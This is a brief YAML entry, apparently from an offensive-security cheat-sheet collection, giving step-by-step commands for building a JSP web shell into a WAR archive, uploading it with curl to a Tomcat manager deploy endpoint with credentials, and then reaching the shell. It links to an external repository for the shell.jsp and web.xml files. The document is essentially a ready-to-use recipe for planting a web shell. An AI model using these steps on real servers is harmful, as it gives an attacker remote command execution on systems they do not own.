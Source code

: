 ```yaml
---
functions:
  shell:
    - description: WAR and jsp web shell
      code: |
        (1) File Structure:
          ── shell.jsp
          ── WEB-INF
              ── web.xml
        (2) jar -cf shell.war *
        (3) curl --upload-file shell.war http://10.10.10.194:8080/manager/text/deploy?path=/{context}&update=true -u {username}
        (4) https://{address}/{context}
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/web.xml    
---
```

